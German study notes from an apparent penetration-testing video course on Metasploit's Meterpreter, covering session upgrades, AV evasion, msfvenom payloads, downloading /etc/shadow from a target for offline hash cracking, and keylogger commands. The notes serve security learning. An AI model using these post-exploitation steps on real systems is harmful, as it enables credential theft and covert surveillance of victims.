

Video 163

Ist eine besondere shell.

Meterpreter ist eine payload die in msf ausgewählt werden kann. 



Payload kann oft wenige 100 Bytes betragen. Daher staged ... nachladen von Modulen

Video 164 Einführung in Meterpreter

Mit msf Multihandler kann man die aktuelle shell session in den Hintergrund bringen (Ctrl-z). 

Anzeige aller Sessions: 

```
msf > sessions -l
```

mit

```
msf > sessions -u 1
```

Wird die Session 1 auf eine Meterpreter shell "upgegraded" – es entsteht eine neue zusätzliche Session.

Hintergrundinfo: `-u` ruft ein msf Exploit Modul auf, dass aus einer "normalen" shell eine Meterpreter shell machen kann.

Wechseln in die neue Session:

```
msf > session -i 2
```

meta interpreter (meterpreter) ist eins der killer features von metasploit. Ist eine payload die auf dem Opfersystem komplett im Arbeitsspeicher läuft. 

Meterpreter kann sich am Zielsystem vor AV Programmen verbergen und die Kommunikation verschlüsseln, außerdem können Module nachgeladen werden.

```
meterpreter > help
...
```

Video 165 Meterpreter in der Praxis

Zugriff auch auf das lokale Dateisystem z.B. über `lcd`, `lls`

Laden einer remote Datei:

```
meterpreter > cd /etc
meterpreter > help download
meterpreter > download shadow
```

Offline Angriff auf die Hashwerte wäre jetzt möglich.

Plaintext shells können keinen Editor starten. metapreter stellt hingegen vim zur Verfügung – über den Befehl edit. 

166. Meterpreter-Shell für Windows

`msfvenom` gehört zum Metasploitable Framework und ermöglicht das erstellen von Programmen mit beliebiger Payload.

...

Einfacher keylogger

```
keyscan_start
keyscan_dump
keyscan_stop
```

167. Externe Module in Meterpreter laden

```
load <TAB> <TAB>
...
```


